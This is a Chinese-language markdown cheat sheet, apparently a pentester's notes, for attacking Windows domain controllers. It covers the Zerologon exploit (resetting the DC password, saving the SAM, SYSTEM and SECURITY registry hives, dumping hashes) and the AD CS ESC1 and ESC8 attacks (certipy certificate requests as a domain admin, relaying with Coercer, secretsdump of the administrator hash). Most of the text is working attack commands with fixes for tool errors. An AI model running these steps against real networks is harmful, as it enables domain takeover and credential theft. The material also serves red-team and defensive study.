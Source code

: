 # 域控打法笔记

## CVE-2020-1472 zerologon

检测脚本

https://github.com/SecuraBV/CVE-2020-1472

![zerologon检测](./img/Snipaste_2022-12-13_16-03-34.png)

利用

https://github.com/risksense/zerologon

置空密码

![zerologon置空密码](./img/Snipaste_2022-12-13_16-05-51.png)

利用空密码dumphash

![zerologon-dumphash](./img/Snipaste_2022-12-13_16-11-34.png)

执行如下命令，将注册表下载到本地
```
reg save HKLM\SYSTEM system.save

reg save HKLM\SAM sam.save

reg save HKLM\SECURITY security.save

get system.save

get sam.save

get security.save

del /f system.save

del /f sam.save

del /f security.save
```
这里要注意，get命令不是windows操作系统的命令，是impacket提供的命令，可以通过help查看，比如我的这个版本就是叫lget

![zerologon-history](./img/Snipaste_2022-12-13_18-17-37.png)

恢复机器码

![zerologon-reinstall](./img/Snipaste_2022-12-13_18-26-22.png)

![zerologon-reinstall](./img/Snipaste_2022-12-13_18-29-26.png)

## adcs

### 搭建参考
https://forum.butian.net/share/1583
https://yangsirrr.github.io/2021/08/16/adcs-esc1-esc8-gong-ji-fang-shi/#toc-heading-22

### esc1

#### 域外

1. certipy find -u user@domain -p password -dc-ip 192.168.44.129 -vulnerable

扫漏洞

坑 ldap ssl error
```
[-] Got error: socket ssl wrapping error: [WinError 10054] 远程主机强迫关闭了一个现有的连接。
[-] Use -debug to print a stacktrace
```
certipy默认用的ldaps，可以指定 -scheme ldap强制不使用ssl

2. certipy req -u user@domain -p password -target 192.168.44.131 -ca ding-cs-ca -template MATRIX -upn dcadmin@domain

![adcs](./img/Snipaste_2022-12-28_13-33-25.png)

为域管请求证书

3. certipy auth -pfx administrator.pfx -dc-ip 192.168.44.129

获取hash

坑 ldap ssl error，不支持ldaps，和坑1是一个问题

```
Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

在DC上配置证书，参考https://cloud.tencent.com/developer/article/1937696


4. secretsdump hash

#### 域内

### esc8

dc是2012以下时，PetitPotam可以匿名当问，否则需要制定域账号密码

#### 域外

Ceripty 报错 TypeError: __init__() got an unexpected keyword argument 'required'

![adcs](./img/Snipaste_2023-01-12_22-25-28.png)

解决方案，修改 entry.py 将 required=True 删掉，重新setup.py install

    subparsers = parser.add_subparsers(help="Action", dest="action", require=True)


同时新版Ceripty好像不支持 -ca ip形式，只能-ca-name,如果无法走dns解析就不能打，也可以降级到4.0版本指定ca ip

1. 开启监听 certipy relay -ca caip -template DomainController
certipy relay -ca caip -template DomainController

![adcs](./img/Snipaste_2023-01-13_10-57-54.png)
2. 强制relay
python .\Coercer.py coerce -u user -p pass -d domain -l relayip -t dcip

![adcs](./img/Snipaste_2023-01-13_10-54-30.png)

3. certipy auth -pfx xxx.pfx -dc-ip domainip

![adcs](./img/Snipaste_2023-01-13_11-00-17.png)

4. python secretsdump.py -hashes ':ntmlhash' 'domain/user@domainip' -just-dc-user administrator

